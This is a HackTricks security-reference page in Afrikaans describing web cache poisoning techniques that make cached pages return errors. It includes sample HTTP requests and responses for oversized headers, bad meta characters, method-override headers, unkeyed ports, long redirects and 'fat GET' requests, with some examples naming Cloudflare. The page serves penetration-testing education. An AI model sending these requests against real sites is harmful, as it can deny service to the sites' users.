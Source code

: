 # Cache Poisoning to DoS

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Op hierdie bladsy kan jy verskillende variasies vind om te probeer om die **webbediener te laat reageer met foute** op versoeke wat **geldige is vir die cache bedieners**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Stuur 'n versoek met 'n kopgrootte groter as die een wat deur die webbediener ondersteun word, maar kleiner as die een wat deur die cachebediener ondersteun word. Die webbediener sal met 'n 400 respons antwoordgee wat dalk gekanselleer kan word:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Karakter (HMC) & Onverwagte waardes**

Stuur 'n kop wat sommige **skadelike meta karakters** soos  en  bevat. Ten einde die aanval te laat werk, moet jy eers die cache omseil.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
'n Sleg geconfigureerde kop kan net `\:` as 'n kop wees.

Dit kan ook werk as onverwagte waardes gestuur word, soos 'n onverwagte Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Ongekeyde kop**

Sommige webwerwe sal 'n foutstatuskode teruggee as hulle **sekere spesifieke koppe in die versoek sien** soos met die _X-Amz-Website-Location-Redirect: someThing_ kop:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Metode Oorskrywing Aanval (HMO)**

As die bediener die verandering van die HTTP metode met koptekste soos `X-HTTP-Method-Override`, `X-HTTP-Method` of `X-Method-Override` ondersteun. Dit is moontlik om 'n geldige bladsy aan te vra deur die metode te verander sodat die bediener dit nie ondersteun nie, sodat 'n slegte antwoord in die cache gestoor word:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Ongekeyde Poort**

As die poort in die Host-kop weerspieël word in die antwoord en nie in die cache-sleutel ingesluit is nie, is dit moontlik om dit na 'n onbenutte poort te herlei:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Soos in die volgende voorbeeld, x word nie in die cache gestoor nie, so 'n aanvaller kan die herlei-respons gedrag misbruik om die herlei 'n URL te laat stuur wat so groot is dat dit 'n fout teruggee. Dan sal mense wat probeer om toegang te verkry tot die URL sonder die ongecacheerde x sleutel die foutrespons ontvang:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Gasheer-kop geval normalisering**

Die gasheer-kop moet gevalsensitief wees, maar sommige webwerwe verwag dit om kleinletters te wees en gee 'n fout as dit nie is nie:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Pad normalisering**

Sommige bladsye sal foutkode teruggee wanneer data URLencode in die pad gestuur word, egter, die cache bediener sal die pad URLdecode en die antwoord vir die URLdecoded pad stoor:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Sommige cache bedieners, soos Cloudflare, of web bedieners, stop GET versoeke met 'n liggaam, so dit kan misbruik word om 'n ongeldige antwoord te kas:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Verwysings

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
